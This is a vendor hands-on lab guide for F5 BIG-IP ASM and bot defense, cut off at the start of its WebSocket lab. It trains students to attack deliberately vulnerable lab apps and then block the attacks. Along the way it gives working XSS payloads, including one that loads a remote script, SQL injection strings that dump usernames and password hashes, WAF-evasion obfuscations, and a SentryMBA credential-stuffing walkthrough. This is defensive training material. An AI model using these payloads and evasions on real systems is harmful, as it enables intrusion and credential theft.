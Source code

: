 Participant Hands-on Lab Guide

|image0|

    Last Updated: *04.2017*

©2016 F5 Networks, Inc. All rights reserved. F5, F5 Networks, and the F5
logo are trademarks of F5 Networks, Inc. in the U.S. and in certain
other countries. Other F5 trademarks are identified at f5.com.

Any other products, services, or company names referenced herein may be
trademarks of their respective owners with no endorsement or
affiliation, express or implied, claimed by F5.

These training materials and documentation are F5 Confidential
Information and are subject to the F5 Networks Reseller Agreement. You
may not share these training materials and documentation with any third
party without the express written permission of F5.

    \ **Table of Contents**

Lab Environment and Setup 3

Lab 1 – Bot Signatures and Proactive Bot Defense 4

Exercise 1 – Bot Signatures 4

Step 1 – Configure DoS Profile 4

Step 2 – Launch and Observe Simple Bot Attacks 5

Exercise 2 – Custom Bot Signatures 6

Step 1 – Unknown “Bot” Attack 6

Step 2 – Custom Bot Signature 6

Step 3 – Run the Unknown “Bot” Attack Again 7

Exercise 3 – Proactive Bot Defense 8

Step 1 – Enable Proactive Bot Defense 8

Step 2 – Launch and Observe Attack 9

Exercise 4 – Blocking and Validating Suspicious Browsers 10

Step 1 – Edit DoS Profile 10

Step 2 – Launch and observe attack. 11

Exercise 5 – Blocking Credential Stuffing with Proactive Bot Defense 13

Step 1 – Review Sentry MBA Config 13

Step 2 – Launch a Cred Stuffing attack 16

Step 3 – Block SentryMBA with Proactive Bot Defense 19

Lab 2 – Evasion Techniques 21

Exercise 1: Setup and Determining Vulnerability 21

Step 1 - Burp Suite Proxy 21

Step 2 - Create Policy 21

Step 3 - Determining Cross Site Script (XSS) Vulnerability 22

Exercise 2: Testing ASM with Evasion Techniques 25

Step 1 – Testing the XSS through ASM 25

Step 2 – Obfuscation – URL Encoding 26

Step 3 – Obfuscation – String Manipulation 30

Lab 3 - Cross Site Request Forgery Protection 34

Exercise 1 – Review CSRF Attack Page 34

Step 1 – Login 34

Step 2 – Configure CSRF Protection 36

Step 3 – Inspect CSRF Protection 37

Lab 4 - Protecting JSON applications with ASM 40

Exercise 1 – Review JSON App 40

Step 1 – Review JSON POST in Burp Suite 40

Exercise 2 – Manipulate JSON Request data 42

Step 1 – Change credentials 42

Step 2 – SQL Injection 44

Exercise 3 – Blocking malicious JSON with ASM 45

Step 1 – Create and Apply an ASM policy 45

Step 2 – Re-try SQL Injection 46

Exercise 4 – ASM Content Profiles 48

Step 1 – Review JSON Content Profile 48

Step 2 – Enforce signatures and re-try SQLi Attack 49

Exercise 5 – JSON Format Validation 51

Step 1 – Attempt a XSS Attack 51

Lab 5 - Websocket Protection 52

Exercise 1 – Review TaxiApp and F5 Config 52

Step 1 – Associate WebSocket Profile 52

Step 2 – Review TaxiApp 53

Step 3 – Attack TaxiApp 54

Exercise 2 – WebSocket Protection 55

Step 1 – Create ASM WebSocket Policy 55

Lab 6 – ASM Learning (Optional Exercise) 58

Exercise 1 – Policy Creation 58

Step 1: Create policy for Hackazon 58

Step 2: Review the Hackazon Virtual Security Tab config 58

Step 3: Create and Configure Learning Suggestions 59

Exercise 2: Server Technologies 62

Step 1: Review ASM Learning 62

Step 2: Review Learning Suggestions 64

Lab Environment and Setup
=========================

    **IMPORTANT: When you are completing these exercises, to ensure
    consistent lab behavior:**

    **- Use Chrome to manage the BIG-IP **

    **- Use Firefox for all application interactions.**

Lab 1 – Bot Signatures and Proactive Bot Defense
================================================

The purpose of this lab is to help you understand the bot detection and
mitigation features in Application Layer DoS Profiles. Also, to see the
new bot logging features in 13.0. You will detect and block bots with
increasing sophistication. You will also Use SentryMBA to perform a
credential stuffing attack and then block it.

Exercise 1 – Bot Signatures
---------------------------

Step 1 – Configure DoS Profile
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Create a DOS Profile** so that only Bot Signatures are enabled. Ensure
that ALL other features are disabled. Associate this profile to the DVWA
Protected VIP (10.1.10.56).

|image1|

Step 2 – Launch and Observe Simple Bot Attacks
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. On the Windows client open a command line and change to the
   **c:\\xampp\\apache\\bin** directory

|image2|

1. Use Apache Bench to “attack” the website. Run the following command:

ab -c 10 -n 1000 -r http://10.1.10.56/

1. 3. On the BIGIP, go to Security >> Event Logs >> Bot Defense >>
   Requests.

Note: When viewing the Bot Defense logs you will need to scroll to the
right to see some of the fields shown in the screenshots.

|image3|

In the Bot Defense logs we can see exactly WHO was blocked, HOW they
were blocked, and WHY they were blocked. This level of logging was only
available via iRules in previous versions and gives much greater
visibility into Bot Defense mitigations.

This is a “simple bot” and the DoS Profile was able to identify and
block the bot based on its signature, “ab” in the User-Agent HTTP
header. In the next exercise, we will change the User-Agent header and
see if the DoS Profile can block it.

Exercise 2 – Custom Bot Signatures
----------------------------------

Step 1 – Unknown “Bot” Attack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. From the Windows command line, run the following command:

ab -c 100 -n 1000 -r -H "User-Agent: kalakalazoomzoom"
http://10.1.10.56/

Note: Make sure to copy the entire command and issue all on one line.

1. Watch the Bot Defense Logs.

Step 2 – Custom Bot Signature
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. On the BIGIP, go to **Security ›› Options ›› DOS Protection ›› Bot
   Signatures** List

2. Click **Create**. On the Create New Bot Signature page, create a new
   bot signature with the following settings:

    **Name:** kalakalazoomzoom

    **Category:** DOS Tool

    **User-agent: contains:** kalakalazoomzoom

    |image4|

Step 3 – Run the Unknown “Bot” Attack Again
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. From the Windows command line, run the following command:

ab -c 100 -n 1000 -r -H "User-Agent: kalakalazoomzoom"
http://10.1.10.56/

Make sure to copy the entire command and issue all on one line.

1. Return to the Bot Defense logs. Is the attack blocked this time?

|image5|

1. We can see that the “bot” was blocked because it matched the new
   custom signature.

Exercise 3 – Proactive Bot Defense
----------------------------------

Step 1 – Enable Proactive Bot Defense
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. **On the BIGIP**, go to **Security ›› DOS Protection ›› DOS
   Profiles.** Edit your DoS Profile to enable Proactive Bot Defense.
   Set the Operation Mode to **Always** and clear the **Block Suspicious
   Browsers** box. (We will use that in the next exercise.)

|image6|

Step 2 – Launch and Observe Attack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. Open the Real-Time Charts Window.

2. **Run the following command** from the Windows command line:

ab -c 100 -n 1000 -r -H "User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64;
rv:40.0) Gecko/20100101 Firefox/40.1" http://10.128.10.40/

1. **Review the Bot Defense logs**. Which mitigation is being used?

    |image7|

    The DoS Profile responded to the “bot” with a JS challenge. Note the
    “Reason” field. This field gives descriptive explanation for why a
    challenge was (or was not) possible. Proactive Bot Defense stops
    simple bots, even if they are trying to impersonate legitimate
    browsers with a valid User-Agent header, by responding with a
    JavaScript challenge.

**
**

Exercise 4 – Blocking and Validating Suspicious Browsers
--------------------------------------------------------

Step 1 – Edit DoS Profile
~~~~~~~~~~~~~~~~~~~~~~~~~

1. **On the BIGIP**, go to **Security ›› DOS Protection ›› DOS
   Profiles.** Edit the **Agility\_DOS\_Profile** to enable Block
   Suspicious Browsers and CAPTCHA Challenge. Click **Update**.

    |image8|

Step 2 – Launch and observe attack.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

You will use your browser to act as a JS-enabled bot that is
impersonating a legitimate browser.

1. **On the BIGIP**, open **the Real-Time Charts Window.**

2. **Open a new Private Window in Firefox.** From the new User-Agent
   Switcher tool in the top right corner of the Firefox menu choose
   Safari and OS X.

    |image9|

    This will force Firefox to send a User-Agent header that looks like
    it is coming from Safari on an Apple computer even though we are
    actually using Firefox on a Windows computer.

1. **In the browser address bar enter** http://10.1.10.56/dvwa/ to try
   to access the DVWA site. You will be presented with a CAPTCHA
   Challenge. Fill out the CAPTCHA and click **Submit**. You are allowed
   through to the Auction Website.

    |image10|

1. Look at the Bot Defense logs.

    |image11|

    Proactive Bot Defense initially responded with the JS Challenge
    which the browser (and any JS-enabled bot) was able to pass. The DOS
    Profile then sent the Client Capabilities challenge to validate the
    browser was really Safari running on Mac OS X (since this is what
    the user-agent header indicated). The response received by the BIGIP
    is given a score.

    **Client Capabilities Scores**

    **0 – 59** = Browser = **Allowed**

    **60 – 99** = Suspicious = **CAPTCHA Challenge**

    **100** = BOT = **Blocked**

    The browser received too high of a score and so was presented with
    the CAPTCHA Challenge.

    The CAPTCHA Challenge will block even JS-enabled bots (AKA headless
    browsers) but still let legitimate human users access the site.
    Additionally, the CAPTCHA will only be presented if/when a browser
    does not pass the capabilities challenge. Most browsers will pass
    this challenge with a low enough score that most users will NOT even
    see the CAPTCHA.

Exercise 5 – Blocking Credential Stuffing with Proactive Bot Defense
--------------------------------------------------------------------

Step 1 – Review Sentry MBA Config
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    SentryMBA is a tool that “crackers” use to try to replay stolen
    credentials against login pages that they want to compromise. As you
    will see from this lab it is highly configurable and it is widely
    used on the internet for credential stuffing attacks.

1. **On the Windows client**, open the Sentry MBA tool by clicking the
   blue “S” logo in the taskbar.

    |image12|

    SentryMBA is already configured to attack the Hackazon login page.
    We will take a look at the tool settings to see how it is
    configured.

1. For this lab, SentryMBA is configured to use the Burp Proxy. You will
   learn more about Burp Proxy in another lab. For now, open Burp proxy
   and ensure that Intercept is off.

   |image13|

2. From the Site dropdown box, make sure that “hackazon.f5demo.com” is
   selected.

    |image14|

1. From the Settings section of the left menu, select HTTP Header. Then
   click on the “Magic Wand” icon in the lower right corner.

    |image15|

1. This will open the main configuration wizard page.

   -  Review the configuration and mouse over some of the fields to see
      the context-specific help. DO NOT change any settings.

   -  Close the page with the X in the top right corner.

    |image16|

1. Now Click on Lists in the left menu and select Word Lists.

    Here you can see the username:password credentials that will be
    “stuffed” into the DVWA login page. In practice, these might be tens
    of thousands of stolen credentials from breaches like the Sony,
    Target, Home Depot, or Yahoo breaches.

    |image17|

Step 2 – Launch a Cred Stuffing attack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. Launch the attack by clicking the Go!! Button in the top left corner.
   In the pop-up, check the **Reset WordList** box (if available) and
   click **Start Bruteforcer** **Engine** and then click Yes in the
   proxy warning window.

|image18|

|image19|

1. The attack will start and you will quickly see in the Progression tab
   that a login was successful using the admin:admin and user1:user1
   credentials from the wordlist.

|image20|

1. Once you see the successful login click Abort in the top left. Then
   expand the History section of the left menu and click History.

    |image21|

1. In the History list right click on the successful login and choose
   **Launch in Browser**.

You can see how easy SentryMBA makes it to use, find, and exploit stolen
credentials.

    |image22|

1. In preparation for the next step, clear the successful logins from
   the history by click the red X in the bottom right and deleting
   **Delete Selected Hits**.

    |image23|

Step 3 – Block SentryMBA with Proactive Bot Defense
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We will now run apply a Proactive Bot Defense policy to the Hackazon
virtual to see if Proactive Bot Defense can stop this sophisticated
tool.

1. In Chrome go to the Security tab for the Hackazon\_protected\_virtual
   and assign the Hackazon-PBD Dos profile.

   |image24|

2. In SentryMBA, ensure the Site dropdown is set to
   **http://hackazon.f5demo.com**.

    |image25|

1. Click Go!! To start the attack and watch the Progession window.

2. In the F5 WebUI go to the Bot Defense logs.

    |image26|

Lab 2 – Evasion Techniques
==========================

The purpose of this lab is to introduce common penetration testing
techniques and show how ASM signatures, normalization engine, and
protocol validation handle evasion techniques. You will also use Burp
Suite to view, manipulate, and replay requests and attacks.

Exercise 1: Setup and Determining Vulnerability
-----------------------------------------------

Step 1 - Burp Suite Proxy
~~~~~~~~~~~~~~~~~~~~~~~~~

1. View Proxy tab and settings

2. Ensure that Intercept is OFF

|image27|\ Step 2 - Create Policy
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    Use the following settings:

1. Advanced View

2. Name: DVWA-Evasion

3. Policy Template: Comprehensive

4. Virtual Server: DVWA\_protected

5. Lang: utf-8

6. Enforcement Readiness: 0 days

Step 3 - Determining Cross Site Script (XSS) Vulnerability
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. In Firefox browse to http://unprotected.f5demo.com/dvwa/

   a. Login as admin/admin

   b. Click on XSS Reflected in Left side menu

   c. |image28|

2. Enter Basic XSS Locator

   a. In the “What is your name?” field enter your name. Note that the
      name you entered is shown in the response. This is known as
      “reflection”; user input is shown, or reflected, in the response.

   b. Now enter this common XSS string that is used to determine if a
      site is vulnerable to XSS:

    '';!--"<F5ROCKS>=&{()}

    | **'';!--"<XSS>=&{()}**
    | This is a common string used to test what, if any, filters and/or
      encoding are being used on user input. Typically, the source of
      the page after this injection will contain either &lt;XSS or <XSS.
      If the second is found, the application is most likely not
      filtering user input (as it allowed the addition of an arbitrary
      tag) and is likely vulnerable to XSS.

a. Note that the visible response does not reflect the string “<F5ROCKS”
   and does not APPEAR to show vulnerability. But let’s view the page
   source to be sure.

   |image29|

b. Right click on the webpage and choose View Page Source.

c. On the view source tab, press ctrl+F to open the inline search bar.
   Search for “F5ROCKS”.

    |image30|

a. The presence of “<F5ROCKS” in the page source is an indicator that
   the page is not filtering user input and is likely vulnerable to XSS.

1. Try these other common XSS locator strings and note the results.
   These XSS strings are used by Pen Testers to determine if a given
   application is susceptible to XSS.

    **';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";
    alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--
    ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>**

    This is actually a combination of several injection attempts:

    **The First Injection**

    ';alert(String.fromCharCode(88,83,83))//

    This injection attempts to terminate a JavaScript string literal
    (using '), then terminate the statement (with ;) and makes a call to
    alert(String.fromCharCode(88,83,83)) which will cause a popup box
    containing "XSS". The following // is an attempt to "comment out"
    the rest of the statement, so that a syntax error will not occur and
    the script will execute.

    **The Second Injection**

    ";alert(String.fromCharCode(88,83,83))//

    **Like the first injection, but it uses " in an attempt to terminate
    a JavaScript string literal.**

    **The Third Injection**

    --></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

    This attempts to do the following things:

-  Terminate an HTML (or XML) comment (with -->)

-  Terminate an existing <SCRIPT> tag using </SCRIPT>

-  This is done to prevent the injected script causing a syntax error,
   which would prevent the injected script from executing.

-  Terminate an HTML attribute and tag, using ">

-  Terminate an HTML attribute and tag, using '>

-  Inject JavaScript using
   <SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

    **<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>**

    This is a standard JavaScript injection that is calling a remote .js
    file.

Exercise 2: Testing ASM with Evasion Techniques
-----------------------------------------------

Step 1 – Testing the XSS through ASM
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. In Firefox browse to http://protected.f5demo.com

   a. Login as admin/admin

   b. Click on XSS Reflected in Left side menu

2. Enter the XSS Locator string in the “What’s your name?” field and
   click Submit:

    ;alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";
    alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--
    ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

1. In Chrome, review the ASM logs for this request. |image31|

2. Enter the remote xss.js script and click submit:

    <SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>

1. Review the ASM logs.

    |image32|

Step 2 – Obfuscation – URL Encoding
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    One form of obfuscation is encoding the attack to “hide” it from
    protections like IPS and WAF. In this step we will try URL-encoding.

1. Enable intercept on Burp Proxy, by selecting the Proxy tab and
   clicking the “Intercept is off” button. It should now say “Intercept
   is on.” Requests from FF will now be held in Burp for review and
   possible manipulation.

    |image33|

1. In Firefox submit the remote xss.js script again.

    <SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>

1. Manipulate the request in Burp Proxy.

   a. In the Burp Proxy Request window select entire parameter value,
      right-click, and select Send to Decoder

    |image34|

a. In Decoder tab, from right hand menu select Encode as… URL

    |image35|

a. Select and copy the URL-encoded string (You will need to use Ctrl+C
   to copy the string)

    |image36|

a. Return to the Proxy tab, select the entire parameter value and
   replace it with the copied URL-encoded string

    |image37|

a. Click forward. (You may need to click forward a few more times if
   subsequent requests are generated to load this page).

1. View the DVWA page in FF to see if the XSS was successful.

2. This same obfuscation technique could be accomplished without Burp by
   simply editing the query string parameter value directly in the
   browser address bar. Try it.

3. Review the ASM logs.

Step 3 – Obfuscation – String Manipulation
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    Another form of obfuscation is string manipulation. In this
    exercise, we will try manipulating common XSS and SQLi attack
    strings to evade signature-based detections.

1. **Null character insertion**

   a. Ensure Burp intercept is on.

   b. | Send the XSS script again.
      | <SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>

   c. In Burp Intercept, insert a URL-encoded null character (%00) in
      the middle of the beginning and ending script tags.

|image38|

1. **SQLi Always True
   **\ You should be familiar with the common “OR 1=1” SQLi injection
   attack. This is a common attack that attempts to create an “always
   true” condition that will cause the database to return more rows than
   the application intended.

   a. Ensure Burp Intercept is turned off

   b. In Firefox go to the SQLi Injection page.

   c. | Enter the following string in the User ID field and click
        Submit.
      | ' OR 1=1#

   d. Review the ASM Request log:

      i.  What signatures fired for this request?

      ii. Note each of the Signature IDs that fired. There may be more
          than one.

    |image39|

a. | Let’s try a less obvious “always true” string and see if ASM
     catches it. In the User ID field enter the following string and
     click Submit.
   | ' OR ASCII('\*')>'40
   | This is essentially comparing the ASCII representation of the
     asterisk (\*) character (which is 42) with the decimal number 40.
     Note we used a greater than comparison rather than an equality
     comparison.

b. Review the ASM Request log

   i.   What signatures fired for this request?

   ii.  Note the Signature IDs that fired. Are they the same as the
        previous request?

   iii. What does this tell you about ASMs signatures and normalization
        engine?

1. **SQLi Union Select
   **\ In this exercise we will try a more sinister Union Select command
   that returns all of the usernames and their hashed passwords. We will
   then try to manipulate the command to evade signature detection.

a. Ensure Burp Proxy is disabled.

b. In Firefox, return to the DVWA SQL Injection page.

c. In the User ID field enter the following string and click Submit:

' and 1=0 union select null,
concat(first\_name,0x0a,last\_name,0x0a,user,0x0a,password) from users #

|image40|

    You can see that all user names and their hashed passwords are
    returned.

a. Review the ASM Request Log.

   a. What signatures fired?

   b. Note the Signature IDs that were matched. There may be more than
      one.

b. | Return to DVWA in Firefox and enter the following string and click
     Submit:
   | ' and 1=0 un/\*\*/ion/\*\*/sel/\*\*/ect null,
     concat(first\_name,0x0a,last\_name,0x0a,user,0x0a,password) from
     users #

    This string is trying to hide the union select command by inserting
    SQL comments between and in the middle of the words.

a. Review the ASM Request Log.

   a. What signatures fired?

   b. Note the Signature IDs that were matched. There may be more than
      one.

   c. How do these signatures compare to those matches in the previous
      request?

b. | Return to DVWA in Firefox and enter the following string and click
     Submit:
   | ' and 1=0 REVERSE(noinu) REVERSE(tceles) null,
     concat(first\_name,0x0a,last\_name,0x0a,user,0x0a,password) from
     users #

    This string is trying to hide the union select command by using the
    SQL REVERSE function.

a. Review the ASM Request Log.

   a. What signatures fired?

   b. Note the Signature IDs that were matched. There may be more than
      one.

   c. How do these signatures compare to those matches in the previous
      request?

Lab 3 - Cross Site Request Forgery Protection
=============================================

The purpose of this lab is to show in detail how ASM mitigates CSRF
attacks. You will perform a CSRF attack and compare how requests and
responses differ with and without ASM protection.

Exercise 1 – Review CSRF Attack Page
------------------------------------

Step 1 – Login
~~~~~~~~~~~~~~

1. Ensure that Burp Proxy is running and Intercept is off.

2. In Firefox, login to http://unprotected.f5demo.com as admin/admin.

3. In another Firefox tab, browse to the attacker page at
   http://www.badkitties.com. Click on the word Demo to open the attack
   page.

|image41|\ |image42|

    This is a (ridiculously) simple webpage that has two links, Good
    Kitty and Bad Kitty. Bad Kitty is a CSRF link to the unprotected
    DVWA URL. Good Kitty is a CSRF link to the protected DVWA URL.

    This is intended to mimic a real-word malicious page/link that sends
    a request to another URL where the user MAY be authenticated,
    executing an action the user did not intend; a CSRF attack.

1. Click on the Bad Kitty link.

2. In the DVWA browser tab, logout and then try to log back in as
   admin/admin.

3. On the Attack page mouse over the Bad Kitty link and see if you can
   tell to what the admin password was changed.

4. Login as admin and change the password back to “admin”.

Step 2 – Configure CSRF Protection
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. In Chrome, edit the DVWA-Evasion ASM policy to enable CSRF protection
   for the DVWA Change Password page.

    |image43|

1. Change the DVWA-Evasion policy to Blocking mode.

2. In Firefox, login to http://protected.f5demo.com as admin/admin.

3. Click on the Bad Kitty link.

    |image44|

In the next step, we will look at the differences between the protected
and unprotected Change Password pages.

Step 3 – Inspect CSRF Protection
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. In Firefox, open two tabs and login to both the protected and
   unprotected DVWA sites as admin/admin. Browse to the Change Password
   page in each window by clicking on the CSRF link in the right-hand
   menu.

2. Right click on the Change button and choose Inspect Element source.

    |image45|

1. Do the same to inspect the elements for the protected DVWA page.

    |image46|

    Note the Cross Site Request Token (csrt) injected into the page by
    ASM.

1. In the developer tools window, change to the Network tab and click
   the trash can icon to delete any requests that are already showing.

    |image47|

1. Enter “password” into the password fields to change the admin
   password. Click Change.

2. In the developer tools window click on the first GET request and on
   the right select the Params tab.

    |image48|

1. Login and open this same page in Chrome. Inspect the DOM. And note
   the CSRT value.

    |image49|

Lab 4 - Protecting JSON applications with ASM
=============================================

The purpose of this lab is to show ASM’s ability to parse and protect
JSON data.

Exercise 1 – Review JSON App
----------------------------

Step 1 – Review JSON POST in Burp Suite
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. Open Firefox and Burp. In Burp, go to the Proxy tab and turn
   Intercept off.

    |image50|

1. In Firefox browse to http://simplestore.f5demo.com and click on the
   Login tab.

    |image51|

    We will now use Burp to intercept, view, and manipulate the POSTs to
    the login page.

1. Go to Burp and enable intercept. Then try to login to the Simple
   Store app in Firefox as user/user. This request will be intercepted
   by Burp. Return to the Burp window and view the request.

    |image52|

    You should notice that:

-  POST data is not in typical key/value pairs. The POST data is in JSON
   format.

-  The Content-Type “application/json”.

1. Click Forward to forward the request on to the site. Return to
   Firefox to see if you were authenticated.

Exercise 2 – Manipulate JSON Request data
-----------------------------------------

Step 1 – Change credentials
~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. In Firefox try to login again as user/user. Return to Burp Intercept
   and right click on the request and choose Send to Repeater. Then
   click on the Repeater tab.

    |image53|

In Burp Repeater we can manipulate and resend this request many times
and see the responses.

1. Change the username and password JSON parameter values to test/test.
   Click Go to send the request. You should see from the response that
   we successfully logged in with these credentials.

    |image54|

Step 2 – SQL Injection
~~~~~~~~~~~~~~~~~~~~~~

1. In Burp Repeater, change the username parameter value to: **‘ OR
   1=1#**. Then click Go to send the request.

|image55|

    From looking at the response it does not appear that this page is
    susceptible to this specific SQLi attack. But the application did
    receive and try to process the JSON parameters. We could continue to
    try various attacks against this and other pages in this web
    application.

    A WAF will not be able to apply signatures to these parameter names
    and values and protect this application unless it is able to
    properly parse the JSON format and differentiate between the
    parameter name and the parameter value.

    In the next exercise, we will apply an ASM policy that is able to
    parse these JSON parameters and protect this application.

Exercise 3 – Blocking malicious JSON with ASM
---------------------------------------------

Step 1 – Create and Apply an ASM policy
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. Create an ASM policy with the following settings:

|image56|

The ASM policy is now applied to the JSON virtual. Note that we did NOT
make any JSON-specific changes to the policy.

Step 2 – Re-try SQL Injection
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. In Burp Repeater, send the SQLi request again. Look at the response.

    |image57|

1. In The F5 WebUI, look at the ASM Request Log. (Be sure to REMOVE the
   filter for illegal requests.)

    |image58|

    ASM was able to parse the JSON parameters and identify the request
    as malicious. However, it did not block the request because the
    signatures are in staging. In the next exercise will will look at
    why and how ASM was able to parse the JSON parameters and then
    enforce the signature(s) to block this request.

Exercise 4 – ASM Content Profiles
---------------------------------

Step 1 – Review JSON Content Profile
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. **On the BIGIP**, go to **Security ›› Application Security ›› Content
   Profiles ›› JSON Profiles.** Click on the Default Profile. Here you
   can see that there is a Default JSON profile that allows ASM to
   validate JSON format and check the parameter names and values against
   signatures.

    |image59|

    |image60|

Step 2 – Enforce signatures and re-try SQLi Attack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. In the F5 WebUI, go to **Application Security ›› Policy Building ››
   Traffic Learning**.

2. In the **Enforcement Readiness Summary** section, click on the number
   indicating the number of signatures that have suggestions but are not
   enforced.

    |image61|

1. On the **Attack Signatures** page, select all three signatures and
   click Enforce. Click Apply Policy to apply these changes.

    |image62|

1. Return to Burp Repeater and resend the SQLi attack by clicking Go.
   Note the response. Was the request blocked?

    |image63|

1. On the F5 WebUI, return to the ASM Request Log and view this request.
   What indicators are there that the request was blocked?

    |image64|

1. Clear the Request Log.

Exercise 5 – JSON Format Validation
-----------------------------------

Step 1 – Attempt a XSS Attack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. In Burp Repeater, enter the following XSS attack as the username
   parameter value and click Go:

<script>window.alert("You have been hacked!!!");</script>

    Was the Request blocked?

|image65|

1. Review this request in the ASM Request log. Why was this request
   blocked? Besides the XSS signatures, what other violation(s) fired?

|image66|

    We can see that not only were the XSS signatures were matched but
    also that ASM is validating correct JSON formatting. This a
    “positive security model” function would help catch zero-day or
    obfuscated attacks that may NOT trigger a signature.

Lab 5 - Websocket Protection
============================

The purpose of this lab is to show the ability of ASM to support, parse,
and protect applications that use WebSockets to transmit data.

Exercise 1 – Review TaxiApp and F5 Config
-----------------------------------------

Step 1 – Associate WebSocket Profile
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

